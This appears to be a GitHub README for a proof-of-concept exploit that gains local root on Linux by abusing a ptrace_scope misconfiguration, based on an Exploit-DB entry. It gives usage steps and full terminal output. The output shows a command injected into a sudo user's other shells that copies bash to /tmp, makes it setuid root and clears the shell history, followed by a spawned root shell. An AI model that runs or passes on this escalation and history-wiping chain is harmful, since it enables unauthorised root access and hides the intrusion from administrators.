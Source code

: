 # ptrace misconfiguration local privilege escalation
ptrace misconfiguration Local Privilege Escalation

using ptrace (no GDB dep) execve

WARNING! this is a POC, the code is CRAP

based from (GDB dep): https://www.exploit-db.com/exploits/46989
'ptrace_scope' misconfiguration Local Privilege Escalation by Marcelo Vazquez (s4vitar) & Victor Lasa (vowkin)

How to test:

open a terminal with a sudo user group

execute any command with sudo and enter the password, ex:
```
dreg@fr33project:~$ tty
/dev/pts/4
dreg@fr33project:~$ id
uid=1003(dreg) gid=1003(dreg) groups=1003(dreg),27(sudo)
dreg@fr33project:~$ sudo whoami
[sudo] password for dreg:
root
```

open other terminal with the same user and execute ./xpk (the name of the exploit executable is important, dont change!)
```
dreg@fr33project:~$ tty
/dev/pts/7
dreg@fr33project:~$ .gcc -o xpk xpk.c
dreg@fr33project:~$ ./xpk
David Reguera Garcia aka Dreg exploit without gdb dep, based in:
https://www.exploit-db.com/exploits/46989
'ptrace_scope' misconfiguration Local Privilege Escalation
Authors: Marcelo Vazquez  (s4vitar)
         Victor Lasa       (vowkin)

[*] PID -> bash
[*] Path 2660: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> bash
[*] Path 2892: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> sh
[*] Path 2998: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> bash
[*] Path 2999: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap

[*] Cleaning up...
[*] Spawning root shell...
bash-5.0# id
uid=1003(dreg) gid=1003(dreg) euid=0(root) egid=0(root) groups=0(root),27(sudo),1003(dreg)
bash-5.0# whoami
root
bash-5.0#
```
